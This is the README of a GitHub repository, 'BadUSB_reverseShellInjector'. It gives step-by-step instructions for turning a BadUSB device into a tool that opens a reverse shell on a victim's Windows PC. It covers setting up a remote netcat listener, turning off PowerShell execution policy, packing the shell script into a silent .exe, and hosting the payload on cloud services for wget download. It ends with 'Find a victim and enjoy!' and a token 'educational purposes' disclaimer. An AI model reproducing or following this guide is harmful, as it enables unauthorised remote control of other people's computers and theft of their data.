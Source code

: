 # BadUSB_reverseShellInjector
# Warning ⚠️
Everything in this repository is **strictly** for educational purposes. Notice **I am not responsible** for stolen data. **You are responsible** for your actions using developed script for **BadUSB**.
# About ℹ️
This **script** allows you to take **control** of a **PC** with **reverse shell** attack.
### NB n°1 (for arduino BadUSB)
Sometimes, you will see something like this : 
``` 
Keyboard.press(KEY_LEFT_CTRL);
Keyboard.press(KEY_LEFT_ALT);
Keyboard.press(173);
Keyboard.releaseAll(); 
```
This is only to write these characters : "@", "\\". But it depends on the computer's layout, so adapt these characters thanks to this [site](https://www.csee.umbc.edu/portal/help/theory/ascii.txt) and the sequence you actually use to wirte these characters with your keyboard. (or switch the keyboard layout to French).
### US Layout
For US layout you only have to replace by this for "\\" :
```
Keyboard.press(92);
Keyboard.releaseAll();
```
And by this for "@" :
```
Keyboard.press(64);
Keyboard.releaseAll();
```
### NB n°2
You can customize the **delay** according to the speed in which you plug the **BadUSB**.
### NB n°3
When you plug the BadUSB in a PC you  have to wait for the caps lock to flash to unplug it.
# Getting Started ✔️
## Requirments
1. Have a **BadUSB**.

2. Install **Arduino software** [here](https://www.arduino.cc/en/software) (if you use a BadUSB which is based on arduino);

3. [Have an ssh server](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#linode);

4. [Download PS2EXE](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#ps2exe);

5. Have a victim with **Windows OS** installed in his PC;
## Linode
1. Create an account [here](https://www.linode.com/);

2. Go to create, linode;

3. Select Ubuntu 18.04 LTS distribution;

4. Select the region closest to where you live;

5. Select shared CPU, Nanode 1GB;

6. Choose your server label and password;

7. Create linode;

8. Now open a terminal and type the ssh access command (ssh root@your_ssh_ip_adress);

9. You are now connected to your ssh server;

10. To make your ssh server always listening type this commands :
```
screen
nc -lnvp 87 -s your_ssh_ip_adress
CTRL + A
D
```
11. Your ssh server is now listening and you can exit;

12. To resume your listening screen, just type :
```
screen -r
```
## PS2EXE
1. Go in this [link](https://github.com/MScholtes/PS2EXE) and click on green button on right top of main page. Then click on "Download Zip" and extract zip file.

2. Start powershell as admin and type the following commands :
```
Set-Loction $env:HOMEPATH\Downloads\PS2EXE-master\Win-PS2EXE
Set-ExecutionPolicy Unrestricted -Force
Import-Module ps2exe
win-ps2exe
```

3. Select source file (the file you want to convert), select target file (the directory where you want your file to be), select icon file (you can download some icons [here](https://iconarchive.com/)), check Supress output and Suppress error output. Then click on compile button to finish the convertion.
## Install
1. Download this repository;

**Linux :**
```
git clone https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector
cd BadUSB_reverseShellInjector
```
**Windows :** Click on green button on right top of main page. Then click on "Download Zip" and extract zip file.

2. Replace LINK in [.txt](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/BadUSB_reverseShellInjector.txt) at line 28 or in [.ino](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/BadUSB_reverseShellInjector.ino) at line 93;

3. Replace LINK [here](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/script.ps1) at line 8 and replce IP and PORT [here](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/reverseShell.ps1) at line 3;

4. [Convert reverseShell.ps1 file in .exe file](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#ps2exe);

5. Put the .ino or .txt file in your **BadUSB**;

5. Find a victim and enjoy !
## Requirments for victim PC
* Turn off caps lock.
* Switch the keyboard layout to French (or adapt the code according to your layout).
# How to set a link for wget the script ⬇️
## Dropbox
1. Create a dropbox account [here](https://www.dropbox.com);

2. Upload your file;

3. Copy the link of the file and change ?dl=0 by ?dl=1;

4. You will get a link like this : https://dropbox.com/s/link/YOURFILE?dl=1;

5. Now put this link in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt) file;
## Github
1. Create a Github account [here](https://github.com/signup);

2. Create a public repository;

3. Upload your file;

4. Go to your file page and click on RAW button;

5. Copy the RAW page link and put it in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt) file;
## One Drive
1. Create a One Drive account [here](https://signup.live.com/signup);

2. Upload your file file;

3. Follow this [tutorial](https://mangolassi.it/topic/19276/how-to-configure-a-onedrive-file-for-use-with-wget)

4. Put the link you got in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt)

